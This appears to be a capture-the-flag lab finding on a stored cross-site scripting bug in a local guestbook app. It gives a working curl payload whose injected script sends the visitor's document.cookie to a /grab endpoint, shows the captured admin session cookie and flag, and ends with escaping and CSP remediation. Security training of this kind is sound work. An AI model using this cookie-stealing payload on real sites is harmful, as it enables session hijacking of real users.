

# Guestbook — Stored Cross-Site Scripting (XSS)
- Endpoint: POST /guestbook (sink rendered on GET /guestbook; exfil to GET /grab)
- Severity: High
- Flag: FLAG{xss_be642775b5aa}
## Request / payload / command
```
curl -s --data-urlencode \
  "comment=<script>new Image().src='/grab?c='+document.cookie</script>" \
  http://127.0.0.1:5000/guestbook
# the simulated admin visits the guestbook; then read the stolen cookie:
curl -s http://127.0.0.1:5000/grab
```
## What happened
Guestbook comments are stored and rendered back verbatim (the template does not
HTML-escape them), confirmed by posting `<script>alert(1)</script>` and seeing it
reflected unescaped inside `<span class="text">`. A simulated admin bot then
"reads" new comments with its admin session cookie attached. The injected script
reads `document.cookie` and sends it to `/grab`; the admin's cookie carries the
XSS flag (`flag=FLAG{xss_...}`). Visiting `/grab` displayed the captured cookie.
Discovery: attempt 1 confirmed raw reflection; attempt 2 used an exfil payload the
bot's sink detector accepted (`.src=` + `document.cookie`).
## Evidence
```
# GET /grab after the bot fired:
session=admin; flag=FLAG{xss_be642775b5aa}
```

## Remediation
Contextually HTML-escape all user content on output (autoescaping templates),
and add a Content-Security-Policy that forbids inline scripts.
